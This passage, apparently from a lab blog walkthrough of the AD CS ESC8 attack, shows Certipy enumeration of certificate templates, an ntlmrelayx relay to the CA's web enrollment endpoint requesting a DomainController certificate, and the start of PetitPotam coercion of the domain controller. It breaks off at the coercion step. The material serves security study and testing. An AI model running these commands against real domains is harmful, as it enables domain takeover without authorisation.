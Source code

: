 Once you have identified the CA server, open a web browser and verify that the certificate web enrollement service is running:

![adcs-http-web-enrollment](/images/ad/adcs-esc8/adcs-http-web-enrollment.png)

### Enumerate AD CS Configuration

We will use [Oliver Lyak's](https://twitter.com/ly4k_) python implementation of Ceritfy - [Certipy](https://github.com/ly4k/Certipy) (which will also identify the CA for us), to enumerate details about the AD CS configuration - specifically which templates are supported. As per the github readme:

> The `find` command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations.

```bash
certipy find 'lab.local/jdoe:Password123@dc.lab.local'
```

![certipy-adcs-enumeration](/images/ad/adcs-esc8/certipy-adcs-enumeration.png)

Looking at the output, we can see that Ceritpy identified the CA server and that the HTTP Web Enrollment service is enabled:

<img width="70%" src="/images/ad/adcs-esc8/certipy-find-output.png"/>

There are some [custom bloodhound queries](https://github.com/ly4k/Certipy/blob/main/customqueries.json) which can quickly identify misconfigured certificate templates.

<img width="70%" src="/images/ad/adcs-esc8/bloodhound-custom-queries.png"/>

Note: this is only scratching the surface of what you can do with Certipy. It is an extremely useful offensive tool for abusing AD CS. I found this out close to the end of writing this blog as I had the tool on my list of things to read but didn't get around to it until it was too late.


### NTLM Relay Set Up

The first step is to set up our attacker machine to perform the NTLM relay attack using [impacket's ntlmrelayx](https://github.com/SecureAuthCorp/impacket)

```bash
sudo python3 impacket/examples/ntlmrelayx.py -debug -smb2support --target http://ca.lab.local/certsrv/certfnsh.asp --adcs --template DomainController
```

<img width="70%" src="/images/ad/adcs-esc8/ntlmrelayx-relay-setup.png"/>


### Coercing Authentication of the DC to our Attacker Machine

Next, we need to coerce authentication of the DC to our attacker machine, so we can relay the authentication request to the CA.


`PetitPotam.py -d <domain> -u <user> -p <password> <attacker-ip> <target-ip>`
